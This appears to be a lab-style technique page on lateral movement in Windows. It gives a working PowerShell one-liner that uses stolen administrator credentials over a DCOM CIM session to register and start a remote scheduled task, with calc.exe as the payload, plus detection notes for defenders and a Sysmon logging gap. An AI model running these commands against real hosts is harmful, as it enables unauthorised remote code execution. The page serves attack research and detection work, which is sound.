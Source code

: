 # WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](../../.gitbook/assets/peek-2018-10-19-22-24.gif)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:

![](../../.gitbook/assets/screenshot-from-2018-10-19-22-35-13.png)

![](../../.gitbook/assets/screenshot-from-2018-10-19-22-59-12.png)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}



